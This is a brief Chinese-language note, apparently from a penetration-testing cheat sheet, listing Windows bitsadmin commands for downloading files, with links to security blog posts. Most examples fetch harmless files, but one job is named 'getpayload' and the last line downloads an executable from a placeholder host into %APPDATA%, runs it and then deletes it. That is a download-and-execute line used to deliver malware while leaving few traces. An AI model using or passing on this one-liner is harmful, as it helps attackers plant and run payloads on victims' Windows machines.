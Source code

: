 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：

https://www.cnblogs.com/hookjoy/p/6550992.html

https://xz.aliyun.com/t/1654/



1.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```


2.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```


3. 带进度条

```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-

28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

4、多条命令
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```


bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe
